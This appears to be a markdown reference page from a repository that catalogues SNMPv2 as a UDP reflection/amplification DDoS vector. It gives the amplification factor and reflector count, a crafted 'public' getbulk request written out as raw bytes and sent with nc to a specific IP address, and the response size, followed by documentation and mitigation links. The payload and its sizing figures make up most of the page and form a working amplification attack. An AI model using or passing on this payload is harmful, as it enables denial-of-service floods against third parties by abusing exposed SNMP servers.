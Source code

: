 # SNMPv2

## Port: 161

## Proto: UDP

## Amplification factor: 40x

## Reflector count: ~295,000 with over 2,000 bytes.

---

### Refined "public" getbulk query

- **34 byte request responding with an average of 2300 bytes**, leading to an amplification factor of ~40x.

### Example request/response

- > ~# echo -ne '\x30\x24\x02\x01\x01\x04\x06\x70\x75\x62\x6c\x69\x63\xa5\x17\x02\x04\x7b\x73\xcc\x13\x02\x01\x00\x02\x01\x64\x30\x09\x30\x07\x06\x03\x2b\x06\x01\x05\x00' |nc -u 31.133.49.250 161
      	<pre>2561 bytes</pre>

### Documentation

- https://tools.ietf.org/html/rfc3412
- https://kb.iweb.com/hc/en-us/articles/230268048-Guide-to-Public-SNMP-Amplification-Issues
- https://www.darkreading.com/attacks-breaches/snmp-ddos-attacks-spike/d/d-id/1269149

### Mitigations

- https://www.bitag.org/documents/SNMP-Reflected-Amplification-DDoS-Attack-Mitigation.pdf
